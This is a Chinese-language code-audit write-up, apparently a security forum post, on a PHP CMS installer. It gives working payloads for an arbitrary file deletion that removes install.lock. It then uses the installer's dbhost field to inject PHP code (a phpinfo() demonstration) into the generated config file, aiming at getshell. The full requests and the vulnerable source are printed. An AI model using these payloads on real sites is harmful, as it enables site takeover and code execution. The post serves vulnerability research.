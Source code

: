 前言
==

最近在社区看文章的时候,发现了这一篇https://forum.butian.net/share/326 发现作者在审计前的分析很详细,但是在找漏洞时太依靠工具,所以感觉应该还会存在一些漏洞,故有了本篇。

漏洞分析
====

在我们对该CMS进行安装后,我们发现:  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-436e5c4605c40750bb903311f7bda2c382a3d644.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-436e5c4605c40750bb903311f7bda2c382a3d644.png)  
安装后任然存在install目录,并且会生成一个install.lock文件来标记,使我们不能再次安装。  
所以,我们只要找到一个任意文件删除漏洞就可以把这个文件删除掉,然后就能进行重装,所以在全局搜索`unlink`函数后,在前台的`/app/controller/kindeditor.class.php`的`delete`函数中发现了这段代码:  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-4de106896221681d719c6eb8a670365bbf655823.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-4de106896221681d719c6eb8a670365bbf655823.png)  
所以我们看到只要构造这样的payload:`?ac=kindeditor_delete&pic=/app/data/install.lock`就能够把`install.lock`删除然后就存在了重装漏洞了。

- - - - - -

- - - - - -

- - - - - -

但是,一次审计,目的肯定是想要进行getshell,所以上述的漏洞当然不能满足我们的需求。但是我们都知道想要getshell,就只有传入一个能执行的马,但是该CMS对文件上传采用的是白名单,所以先暂时不对其进行考虑,这里,我们考虑到在`install`目录中,在对cms进行安装时,会存在一个写入生成默认配置的问题,所以,先打开`/install.index.php`,通读代码后发现大致利用代码如下:

```php
$step = isset($_GET['step']) ? $_GET['step'] : 1;
......
switch ($step) {
......
    case '4':
        if (intval($_GET['install'])) {
            $n = intval($_GET['n']);
            $arr = array();
            $dbHost = trim($_POST['dbhost']);
            $dbPort = trim($_POST['dbport']);
            $dbName = trim($_POST['dbname']);
            $dbHost = empty($dbPort) || $dbPort == 3306 ? $dbHost : $dbHost . ':' . $dbPort;
            $dbUser = trim($_POST['dbuser']);
            $dbPwd = trim($_POST['dbpw']);
            $dbPrefix = empty($_POST['dbprefix']) ? 'tc_' : trim($_POST['dbprefix']);
            $uname = trim($_POST['manager_email']);
            $password = trim($_POST['manager_pwd']);
            $webpath = trim($_POST['webpath']);
            $randkey = uniqid(rand());
            $db_pconnect = 0;
            $conn = @ mysql_connect($dbHost, $dbUser, $dbPwd);
            if (!$conn) {
                $arr['msg'] = "连接数据库失败!";
                die(json_encode($arr));
            }
            mysql_query("SET NAMES 'UTF8'");
            $version = mysql_get_server_info($conn);
            if ($version < 4.1) {
                $arr['msg'] = '数据库版本太低!';
                die(json_encode($arr));
            }

            if (!mysql_select_db($dbName, $conn)) {
                //创建数据时同时设置编码
                if (!mysql_query("CREATE DATABASE IF NOT EXISTS `" . $dbName . "` DEFAULT CHARACTER SET UTF8;", $conn)) {
                    $arr['msg'] = '数据库 ' . $dbName . ' 不存在，也没权限创建新的数据库！';
                    die(json_encode($arr));
                }
                if (empty($n)) {
                    $arr['n'] = 1;
                    $arr['msg'] = "成功创建数据库:{$dbName}<br>";
                    die(json_encode($arr));
                }
                mysql_select_db($dbName, $conn);
            }

            //读取数据文件
            $sqldata = file_get_contents('./' . $sqlFile);

            $password = md5($password);
            $website = 'http://'. SITE_URL;

            $sqldata = str_replace('{username}',$uname,$sqldata);
            $sqldata = str_replace('{password}',$password,$sqldata);
            $sqldata = str_replace('{time}',time(),$sqldata);
            $sqldata = str_replace('{website}',$website,$sqldata);
            $sqldata = str_replace('{webpath}',$webpath,$sqldata);
            $sqldata = str_replace('{dbPrefix}',$dbPrefix,$sqldata);

            $sqlFormat = sql_split($sqldata, $dbPrefix);

            //执行SQL语句
            $counts = count($sqlFormat);

            for ($i = $n; $i < $counts; $i++) {
                $sql = trim($sqlFormat[$i]);

                if (strstr($sql, 'CREATE TABLE')) {
                    preg_match('/CREATE TABLE `([^ ]*)`/', $sql, $matches);
                    mysql_query("DROP TABLE IF EXISTS `$matches[1]");
                    $ret = mysql_query($sql);
                    if ($ret) {
                        $message = '<li><span class="correct_span">&radic;</span>创建数据表' . $matches[1] . '，完成</li> ';
                    } else {
                        $message = '<li><span class="correct_span error_span">&radic;</span>创建数据表' . $matches[1] . '，失败</li>';
                    }
                    $i++;
                    $arr = array('n' => $i, 'msg' => $message);
                    die(json_encode($arr));
                } else {
                    $ret = mysql_query($sql);
                    $message = '';
                    $arr = array('n' => $i, 'msg' => $message);
                }
            }

            if ($i == 999999) exit;
            $message = '成功添加站点信息<br />成功写入配置文件<br>安装完成．';
            //
            $newmodelstr = "<?php \n";
            $newmodelstr .= " define('DBHOST', '" . $dbHost . "');\n ";
            $newmodelstr .= "define('DBUSER', '" . $dbUser . "');\n ";
            $newmodelstr .= "define('DBPWD', '" . $dbPwd . "');\n ";
            $newmodelstr .= "define('DBNAME', '" . $dbName . "');\n ";
            $newmodelstr .= "define('DBCODE', 'utf8');\n ";
            $newmodelstr .= "define('DBCONN', " . $db_pconnect . ");\n ";
            $newmodelstr .= "define('MORESITE', false);\n ";
            $newmodelstr .= "define('USEMC', false);\n ";
            $newmodelstr .= "define('MCHOST', '127.0.0.1');\n ";
            $newmodelstr .= "define('MCPORT','11211');\n ";
            $newmodelstr .= "define('MCHOST2', '127.0.0.1');\n ";
            $newmodelstr .= "define('MCPORT2','11211');\n ";
            $newmodelstr .= "\n?>\n";
            $targetFile = '../app/data/mysql.php';
            @file_put_contents($targetFile, $newmodelstr);
            $arr = array('n' => 999999, 'msg' => $message);
            die(json_encode($arr));
        }

        include_once ("./templates/s4.php");
        exit;
}
```

因为代码过长,所以省略了没必要的代码,我们先从上述代码分析,发现我们要写入的内容中,我们能控制的变量只有`$dbHost`,`$dbUser`,`$dbPwd`,`$dbName`。而`$dbUser`,`$dbPwd`,`$dbName`却都是固定的,我们没法进行修改,所以我们更多的是考虑对`$dbHost`进行一些修改来搞,具体修改请继续往下看。  
首先我们要让`step`等于`4`时,我们就能直接跳到`case 4`中执行,然后需要再给`install`参数以get方式赋值为`1`,然后后面的`dbname`这些就是数据库的用户名,这些都是正常的输入就好了,这里需要注意的地方只有两个点,第一个点是:

```php
    case '4':
        if (intval($_GET['install'])) {
            $n = intval($_GET['n']);
            ...
            if (empty($n)) {
                    $arr['n'] = 1;
                    $arr['msg'] = "成功创建数据库:{$dbName}<br>";
                    die(json_encode($arr));
                }
            ...
            for ($i = $n; $i < $counts; $i++) {
                $sql = trim($sqlFormat[$i]);

                if (strstr($sql, 'CREATE TABLE')) {
                    preg_match('/CREATE TABLE `([^ ]*)`/', $sql, $matches);
                    mysql_query("DROP TABLE IF EXISTS `$matches[1]");
                    $ret = mysql_query($sql);
                    if ($ret) {
                        $message = '<li><span class="correct_span">&radic;</span>创建数据表' . $matches[1] . '，完成</li> ';
                    } else {
                        $message = '<li><span class="correct_span error_span">&radic;</span>创建数据表' . $matches[1] . '，失败</li>';
                    }
                    $i++;
                    $arr = array('n' => $i, 'msg' => $message);
                    die(json_encode($arr));
                } else {
                    $ret = mysql_query($sql);
                    $message = '';
                    $arr = array('n' => $i, 'msg' => $message);
                }
            }
```

这里,`$n`是对程序有影响的。首先`$n`不可以空,然后还有一个for循环需要用到它。这里我们可以直接让`$n`为一个很大的值,就可以跳出for循环就好了。  
第二个点是

```php
$conn = @ mysql_connect($dbHost, $dbUser, $dbPwd);
            if (!$conn) {
                $arr['msg'] = "连接数据库失败!";
                die(json_encode($arr));
            }
```

我们要连接数据库,所以我们要填写正确的内容。但是`$dbHost`, `$dbUser`, `$dbPwd`中后面两个是固定不能变的,所以我们考虑使用`URL的锚点定位`,所以我们这样构造:`dbhost=127.0.0.1:3306#');phpinfo();`就可以绕过去了。  
所以最后的构造是:

```php
GET:http://127.0.0.1:92/install/index.php?step=4&install=1&n=1111
POST:dbhost=127.0.0.1:3306#');phpinfo();('111&dbname=wodecms&dbuser=root&dbpw=root&manager_email=admin&manager_pwd=admin123&webpath=/
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a7fdf7fdc476d9928d0b03b924b05401d782c089.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a7fdf7fdc476d9928d0b03b924b05401d782c089.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-fefe1fb117f287bcb547ac8bb92fd8a7e8a99d3e.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-fefe1fb117f287bcb547ac8bb92fd8a7e8a99d3e.png)

后记
==

这个cms挺有意思的,开发在一些奇怪的地方很注意安全,但是再默认配置这里还存在修改数据库来改默认文件来,写入getshell的方式,这里就不多说了。有兴趣的小伙伴们可以自行下载该cms来进行审计!!!